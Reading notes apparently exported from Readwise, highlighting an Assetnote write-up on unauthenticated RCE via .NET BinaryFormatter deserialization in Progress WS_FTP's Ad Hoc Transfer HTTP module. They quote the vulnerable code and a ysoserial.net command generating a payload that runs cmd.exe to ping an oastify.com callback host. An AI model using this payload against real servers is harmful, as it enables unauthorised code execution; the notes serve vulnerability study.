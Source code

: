 ```yaml
---
author: Assetnote
aliases:
  - RCE in Progress WS_FTP Ad Hoc via IIS HTTP Modules
tags:
  - readwise/articles
url: https://blog.assetnote.io/2023/10/04/rce-progress-ws-ftp/
date: 2024-08-20
---
```

# RCE in Progress WS_FTP Ad Hoc via IIS HTTP Modules

![rw-book-cover](https://blog.assetnote.io/apple-touch-icon-180x180.png)

## Highlights


> decompiling the source code using ILSpy
> #tools 
> [View Highlight](https://read.readwise.io/read/01hdk9z9qn7ytnnwymb171h9ww)



> vulnerability was found from sink -> source, where we discovered the deserialization sink and worked our way up towards the source.
> [View Highlight](https://read.readwise.io/read/01hdk9zht9s1c30d70e2f3re9m)



> Ultimately, we discovered that the vulnerability could be triggered without any authentication, and it affected the entire Ad Hoc Transfer component of WS_FTP.
> [View Highlight](https://read.readwise.io/read/01hdk9zztqnkkzx1m40faegsvk)



> IIS HTTP Modules allow developers to run code within the lifecycle of a HTTP request. The convention of HTTP modules is similar to "middleware" that you might see in other web application frameworks.
> [View Highlight](https://read.readwise.io/read/01hdka188nh2wccc84b7m61ymt)



> The issue discovered in Progress WS_FTP was within a HTTP Module called MyFileUpload.UploadModule
> [View Highlight](https://read.readwise.io/read/01hdka372kr5drd0cs9xszsh2k)



> UploadManager.Instance.DeserializeProcessor(result2.Substring(DEFAULT_PARAMS_TAG.Length));
> [View Highlight](https://read.readwise.io/read/01hdkadqp16zryrhxv9tpyh4z5)



> internal IFileProcessor DeserializeProcessor(string input)     { BinaryFormatter binaryFormatter = new BinaryFormatter(); byte[] buffer = Convert.FromBase64String(input); MemoryStream serializationStream = new MemoryStream(buffer); SettingsStorageObject settingsStorageObject = (SettingsStorageObject)binaryFormatter.Deserialize(serializationStream);
> [View Highlight](https://read.readwise.io/read/01hdkadxdj4jxck3jq8cztfye9)



> In order to execute arbitrary commands through deserialization, we can use ysoserial.net with the following command:
>  ‍
>  ./ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "cmd.exe /C nslookup wuui3r1tbpx4pwl6ao5dztkiq9w2ks8h.oastify.com" -o base64
> [View Highlight](https://read.readwise.io/read/01hdka9g7acve2wjebdwdb5fyv)



> due to the nature of HTTP Modules, the GET URL can be any of the routes within the Ad Hoc Transfer application.
> [View Highlight](https://read.readwise.io/read/01hdkaay00pdretw6memdnjvnw)



> typical .NET deserialization issue that led to RCE
> [View Highlight](https://read.readwise.io/read/01hdkabnar1shzpg83p6qspfw2)

